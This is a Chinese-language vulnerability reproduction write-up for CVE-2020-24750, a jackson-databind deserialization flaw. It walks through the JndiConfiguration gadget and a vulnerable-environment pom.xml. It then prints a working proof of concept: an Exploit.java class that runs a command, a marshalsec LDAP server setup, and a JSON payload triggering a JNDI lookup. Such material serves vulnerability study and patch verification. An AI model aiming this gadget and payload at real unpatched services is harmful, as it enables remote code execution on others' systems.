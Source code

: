 （CVE-2020-24750）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

com.pastdev.httpcomponents.configuration.JndiConfiguration类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()
-   使用了com.pastdev.httpcomponents.configuration.JndiConfiguration第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4

jackson-databind before 2.8.11.6

jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息

`https://github.com/FasterXML/jackson-databind/issues/2798`

![4.png](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

> 相关类确定：

`https://github.com/kishorkunal-raj/jackson-databind/blob/5f4148e6c083529a2d12c6dc986b07a03850f503/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java#L198`

![5.png](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId27.png)

之后在源代码中定位到`com.pastdev.httpcomponents.configuration.JndiConfiguration`类，发现一处可疑的JNDI注入，我们只需要构造参数即可实现，非常简单：

![6.jpeg](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId28.jpg)

整个利用链如下所示：

    mapper.readValue
        ->JndiConfiguration
            ->lookup

### 漏洞复现

#### 环境搭建

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/com.pastdev.httpcomponents/configuration -->
        <dependency>
          <groupId>com.pastdev.httpcomponents</groupId>
          <artifactId>configuration</artifactId>
          <version>0.1.3</version>
        </dependency>

          <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞复现

这里使用LDAP的利用方式进行漏洞的利用演示，RMI的方式也是类似的，且RMI比LDAP要对JDK版本有很大的局限性\~LDAP利用方式：jdk版本：JDK
11.0.1、8u191、7u201、6u211之前，笔者这里采用JDK 1.8.0\_181

##### 编译Exploit.java

> Exploit.java

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

编译Exploit.java文件：

![1.png](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId33.png)

之后在本地搭建HTTP服务并将Exploit.class放置在web目录下，之后通过marshalsec来启动一个LDAP服务使用marshalsec来启动一个LDAP服务：

![2.png](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId34.png)

##### 执行漏洞POC

> Poc.java

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.pastdev.httpcomponents.configuration.JndiConfiguration\",\"ldap://127.0.0.1:1099/Exploit\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

![3.jpeg](./resource/(CVE-2020-24750)FasterXMLjackson-databind远程命令执行漏洞/media/rId36.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8210\#toc-2
